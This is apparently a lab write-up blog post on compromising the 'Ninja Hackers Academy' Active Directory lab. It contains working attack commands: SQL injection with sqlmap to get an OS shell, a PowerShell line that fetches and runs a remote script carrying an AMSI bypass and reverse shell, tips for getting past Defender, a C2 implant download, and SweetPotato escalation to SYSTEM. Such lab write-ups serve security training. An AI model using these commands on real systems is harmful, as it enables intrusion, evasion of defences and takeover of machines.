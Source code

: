 ```yaml
---
title: "AD Pwnage: Ninja Hackers Academy Part 1"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2024-01-13
description: "Hacking into NHA - AD based Lab Red Team way."
tags: [Red Team]
---
```


## Introduction
In these series of posts we are going to look into an AD lab called **Ninja Hackers Academy** (NHA) which can be found [here](https://github.com/Orange-Cyberdefense/GOAD). This is part of some great Active Directory labs from [OrangeCyberDefense](https://github.com/Orange-Cyberdefense) on Github. I highly recommend checking out GOAD to learn many many cool ways of Active Directory Hacking as a beginner. You can also follow the writeups of GOAD from [here](https://mayfly277.github.io/) by the author **mayfly277**.
<br>
Lets get into it. NHA is built as a challenge lab and no writeups are provided. So this is going to be writeup for these. Bear in mind these are somewhat hardened machines and Defender is enabled on all the machines.

![NHA Readme](/assets/img/NHA/nha-readme.png)

## Initial Recon and Access
So we are starting with the scope of subnet of *192.168.58.0/24*. We can start the initial scan using nmap to see what ports are open on what machines.
```bash
nmap -p- -sC -sV 192.168.58.0/24 -Pn -oA allports.nmap
```
We have a list of IPs that are up. 

- 192.168.58.10
- 192.168.58.20
- 192.168.58.21
- 192.168.58.22
- 192.168.58.23

We can see from the port scan that most of these are usual AD ports.

![Nmap Scan](/assets/img/NHA/allports.png)
<br>
We can check out the web server on port 80.

![Webserver](/assets/img/NHA/webserver.png)
<br>
So the first one is a DC by a look at the port 88 which is kerberos being open. 
We can see that the machine 192.168.58.21 has a port open as well. It is also stated as the starting point in the README.md file so we will have a look at that. Before doing so I can also scan the subnet using *netexec* (which is the same as CrackMapExec and can be found [here](https://github.com/Pennyw0rth/NetExec)) to get basic information on the domain.
<br>

```bash
netexec smb 192.168.58.0/24
```

![NetExec](/assets/img/NHA/netexec.png)

So we can see that we have the same IPs up. The *192.168.58.20* is the domain controller for `ACADEMY.NINJA.LAN` and *192.168.58.10* is the DC for the domain `NINJA.HACK` guessing from the SMB signing being enabled. In case of a wider scope I'd have to manually find that out or confirm from the *nmap* scan. From the initial point I can guess that we would be initially working our way in the `ACADEMY.NINJA.LAN` domain. I can add these to my `/etc/hosts` files as well so I can have some DNS resolution.
<br>
Going the web server we are greeted with a academy page.

![Web](/assets/img/NHA/web.png)
Looking around I can see that there is a weird URL that almost seems like a direct SQL query. We can also see the usernames. We can try to make a list by following the context as in the about us page which is firstname.lastname. But we can do this later as well.
![SQL Query in URL](/assets/img/NHA/sql_web.png)
We can try the UNION Based SQL Injection here. First we have to figure out the number of columns.
```
http://web.academy.ninja.lan/Students?SearchString=&orderBy=5--
```
This gives out an error while 4 doesnt. Now we can go the route to manually extract data. Or we could just throw SQLMap to it and it will also help us to get a shell. Using this command.
```bash
sqlmap -u 'http://192.168.100.58/Students?SearchString=&orderBy=Firstname' --current-db --batch --threads 10
```
This returns the current database as `academy`. We can try to see if we have the privileges and if we can run `xp_cmdshell` to run system commands on the machine.
```bash
sqlmap -u 'http://192.168.100.58/Students?SearchString=&orderBy=Firstname' --os-shell --batch --threads 10
```
![SQLMap OS Shell](/assets/img/NHA/os_shell.png)
We can also check to see whats happening behind hte scenes. For that, we can run the same command but this time after providing it the proxy of burpsuite so we can intercept the request that it makes to run OS commands.
```bash
sqlmap -u 'http://192.168.100.58/Students?SearchString=&orderBy=Firstname' --os-shell --batch --threads 10 --proxy=127.0.0.1:8080
```
From this shell we can run commands and get their output. Here I am straight up going to try and get a reverse shell up. I am using 2 powershell scripts. In this order:

- safe.ps1 - Has an AMSI Bypass and calls `call.ps1`
- call.ps1 - Has a modified version of nishang shell `Invoke-PowerShellTcpOneLine.ps1`

After setting up a simple python server
```bash
python -m http.server 80
```

Then we can use this command to run the powershell script. This also bypasses the new `cmdline` detection byt defender.
```bash
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://192.168.58.50/safe.ps1') -UseBasicParsing | iex"
```

We can see the SQLMap making a database connection and trying to execute `xp_cmdshell` module.
![SQLMap OS Shell BurpSuite](/assets/img/NHA/sqlmap_os.png)

If we decode it from URL using CyberChef we get this.
![Payload URL Decode](/assets/img/NHA/sqlmap_xp.png)

It declaring a variable with a character set of 8000 characters enough to fit in our payload. Then it is adding some hex value in it and using `xp_cmdshell` to execute that. If we convert this value from hex, we get our payload.
![Payload Hex Decode](/assets/img/NHA/xpcmdshell_payload.png)

And after running this we get a shell back at out netcat prompt from the IP *192.168.58.22*. Its a bit broken and sad but we can fix it.
![Netcat Shell](/assets/img/NHA/nc_shell.png)

Right. So make it better and have some sort of ease into managing the different shells that we are going to get, we are going to use a Command and Control, otherwise known as a C2. There are many popular ones, including both free and paid. For this lab we are going with [Havoc](https://github.com/HavocFramework/Havoc) built by [C5pider](https://twitter.com/C5pider). Its a really good C2 that is open source (so free) which would be way more than enough for this lab.
<br> 
One thing to note, sometimes the default payload built by Havoc might not work. It might get detected because its open source and signatures get built fast to detect these. You might have some luck if you use a mixture of parameters that you can change in Havoc payload generator and spice up your profile to use with the C2 and get better results. You could also build a custom loader for this. THere are many many great resources and research available for the one looking in the right direction. With a little knowledge, bypassing Defender shouldn't be any issue. Look around for it.
<br>
We are going to try and upload our binary to the web server using this netcat session and execute it. Putting artifacts on disk is never a good option, red teaming wise. But in this case I'm just gonna let that slide...

```bash
iwr http://192.168.58.50/demon.exe -o C:\tmp\demon.exe
```

And then just execute it.
```bash
C:\tmp\demon.exe
```

After a couple of seconds we get the first callback. We can run the following command and get information about our current session. (Running whoami.exe? bad opsec bro).
```bash
shell whoami /all
```

This is what we get
![whoami](/assets/img/NHA/whoami.png)

We can see that we dont exactly have a SYSTEM level shell but instead a *network service* user. This happens when we get a shell from other sources. So an IIS shell would most probably be something like *iisapppol*. These usually have the `SeImpersonatePrivilege` enabled by default because they have to impersonate the user in context of who is running it. This is what we can abuse to impersonate an SYSTEM user and get a shell with that.


## Escalating our way to SYSTEM
We can use [SweetPotato.exe](https://github.com/CCob/SweetPotato) to get a shell as SYSTEM in this case. This is being used from the awesome repository by [Melvin Langvik](https://twitter.com/Flangvik)'s github called [SharpCollection](https://github.com/Flangvik/SharpCollection/).
```bash
dotnet inline-execute /opt/SharpCollection/NetFramework_4.7_Any/SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "C:\tmp\demon.exe"
```

Just like that, we get a second callback with our SYSTEM shell.

![SYSTEM Shell](/assets/img/NHA/system.png)

Right so, we got one machine. I'm gonna sign off on this. In the next part, we are going to see some pivoting. If theres any questions of any sort, or wanna talk about something I can be found on [Twitter](https://twitter.com/crypt0acee) and [LinkedIn](https://www.linkedin.com/in/ahmed-sher-93234a206/). 